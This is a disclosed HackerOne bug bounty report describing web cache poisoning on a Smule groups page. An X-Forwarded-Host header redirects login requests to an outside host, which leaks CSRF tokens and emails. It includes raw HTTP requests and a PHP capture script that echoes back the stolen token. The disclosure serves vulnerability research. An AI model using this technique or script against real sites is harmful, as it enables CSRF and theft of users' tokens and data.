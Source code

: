# Web cache poisoning leads to disclosure of CSRF token and sensitive information

## Report Details
- **Report ID**: 504514
- **URL**: https://hackerone.com/reports/504514
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-03-03T17:17:52.679Z
- **Disclosed**: 2019-07-21T06:17:59.380Z

## Reporter
- **Username**: d3f4u17
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: smule

## Vulnerability Information
**Summary:** 

The page [https://www.smule.com/s/smule_groups/user_groups/user_name](https://www.smule.com/s/smule_groups/user_groups/fossnow27) is vulnerable to web cache poisoning.

**Description:**

The page [https://www.smule.com/s/smule_groups/user_groups/user_name](https://www.smule.com/s/smule_groups/user_groups/fossnow27) is vulnerable to web cache poisoning, on adding `X-Forwarded-Host` header to the request multiple request links get change which leads a user to make requests to a third party website.

## Steps To Reproduce:

*  Intercept the request to the following page [https://www.smule.com/s/smule_groups/user_groups/user_name](https://www.smule.com/s/smule_groups/user_groups/fossnow27) using burp suite or any other tool.

```
GET /s/smule_groups/user_groups/fossnow27 HTTP/1.1
Host: www.smule.com
X-Forwarded-Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: smule_id_production=████%3D%3D--a559b392c9fc10711c799307af296a387ec77794; smule_cookie_banner_disabled=true; _ga=GA1.2.1744768224.1551586925; _gid=GA1.2.2071077738.1551586925; L=N; _smule_web_session=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiJTY4Nzc0ZDQxYjdiYmEyYTlmNmRkZTk3NjYwYmRlMDBkBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMWhmSkdDZk9XcGhHajc5dXFHd1FYc1NhUnh0eGtjVHBocG1Sb3RubldlNDg9BjsARg%3D%3D--4ea860dfb2e3ad2a5a3d49c058f35485961ac5d3; cookies.js=1; smule_autoplay={%22enabled%22:true}; py={%22globalVolume%22:true%2C%22volume%22:0.5}; connection_info=eyJjb3VudHJ5IjoiSU4iLCJob21lUG9wIjoic2ciLCJjb250ZW50UHJveHkiOiJ0YyJ9--16206c9d48aa7c70227255756cc5a9e1e43d3cab
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"74107fb6dcc410390f339e5ddabc3022"
Cache-Control: max-age=0

```
In the above request I have added X-Forwarded-Host header.

* The response returned is shown below, changing the action links as well as footer links of the page.
{F434734}

*  Now open the response, and try to login, when you will login following request will be made
> If you will refresh the page it will ask for resubmission as it is a type of revalidate type of caching.

```
POST /user/check_email HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.smule.com/s/smule_groups/user_groups/fossnow27
X-CSRF-Token: █████████=
Content-Type: application/x-www-form-urlencoded
X-Smulen: daf446d26def7faeef4f6527d7f20fae
Content-Length: 31
Origin: https://www.smule.com
Connection: close

email=foo%40bar.com	
```
to mimic the reponse of the actual server response I have written the following script

```php
<?php
if($_SERVER['REQUEST_METHOD'] == "OPTIONS"){
    if($_SERVER['HTTP_ORIGIN'] == "https://www.smule.com"){
        header('Access-Control-Allow-Origin: *');
        header('Access-Control-Allow-Methods: POST, GET, OPTIONS');
        header('Access-Control-Allow-Headers: x-csrf-token,x-smulen');
        header('Access-Control-Max-Age: 1728000');
        header("Content-Length: 0");
        header("Content-Type: text/plain");
        exit;
    }
    else{
        header("HTTP/1.1 403 Access Forbidden");
        header("Content-Type: text/plain");
        echo "You cannot repeat this request";
    }
}

else if($_SERVER["REQUEST_METHOD"] == "POST"){
	header("Content-type: application/json; charset=utf-8");
	header("Cache-Control: max-age=0, private, must-revalidate");
	header("Content-Security-Policy: default-src * data: blob:; frame-ancestors *.smule.com; script-src 'unsafe-inline' 'unsafe-eval' blob: https://boards.greenhouse.io/embed/job_board/js https://js.stripe.com/v2/ https://js.stripe.com/v3/ http://*.smule.com:* http://*.facebook.net http://*.google-analytics.com http://*.google.com http://*.googleapis.com http://*.gstatic.com https://*.smule.com:* https://*.facebook.net https://*.accountkit.com https://*.google-analytics.com https://*.google.com https://*.googleapis.com https://*.gstatic.com http://www.apple.com/library/quicktime/scripts/ac_quicktime.js https://www.apple.com/library/quicktime/scripts/ac_quicktime.js platform.twitter.com https://optimize.google.com; style-src 'unsafe-inline' data: http://*.smule.com:* https://*.smule.com:* yui.yahooapis.com https://optimize.google.com https://fonts.googleapis.com; report-uri /s/csp-log;");
	header("X-Frame-Options: SAMEORIGIN");
	header("Set-Cookie: smule_id_production=████%3D%3D--a559b392c9fc10711c799307af296a387ec77794;domain=.smule.com; path=/; expires=Fri, 01-Jan-2038 08:00:00 GMT");
	header("ETag: W/\"5be24db7cb9adabbe965c1850ce0de98\"");
	header("X-Request-Id: 9c67b0a57e77660dacbefea12085f82f");
	$res = array("email"=>true, "token" => $_SERVER["HTTP_X_CSRF_TOKEN"], "mail" => $_POST['email']);
	echo json_encode($res);
}
?>
```
The request/respone is shown below:

{F434739}

## Impact:

* CSRF attacks.
* Sensitive Information leakage. 

## Supporting Material/References:

* [https://www.owasp.org/index.php/Cache_Poisoning](https://www.owasp.org/index.php/Cache_Poisoning)
* [https://portswigger.net/blog/practical-web-cache-poisoning](https://portswigger.net/blog/practical-web-cache-poisoning)

## Impact

* CSRF attacks
* Information disclosure

## Attachments
- smulewebcache.png
- smulewebcache3.png
